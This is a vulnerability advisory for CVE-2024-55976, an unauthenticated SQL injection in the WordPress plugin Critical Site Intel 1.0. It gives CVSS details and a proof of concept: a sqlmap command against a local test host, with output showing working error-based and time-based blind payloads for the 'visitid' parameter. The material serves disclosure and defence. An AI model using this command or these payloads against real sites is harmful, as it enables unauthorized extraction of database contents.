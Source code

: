  CVE-2024-55976
Critical Site Intel <= 1.0 - Unauthenticated SQL Injection

# Description

The Critical Site Intel plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, 1.0 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: critical-site-intel-stats
- **Affected Version**: 1.0
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-55976
- **Status**: Closed

POC
---

```
python3 sqlmap.py -u 'http://kubernetes.docker.internal:8099/?visitid=1' --level=3 --risk=2 --dbms='MySQL' -p visitid 
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.12.2#dev}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:31:35 /2025-01-03/

[13:31:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: visitid (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: visitid=1 AND GTID_SUBSET(CONCAT(0x71766a6a71,(SELECT (ELT(8827=8827,1))),0x7171626271),8827)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: visitid=1 AND (SELECT 4706 FROM (SELECT(SLEEP(5)))qhkF)
---
[13:31:35] [INFO] testing MySQL
[13:31:35] [WARNING] reflective value(s) found and filtering out
[13:31:35] [INFO] confirming MySQL
[13:31:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0

```
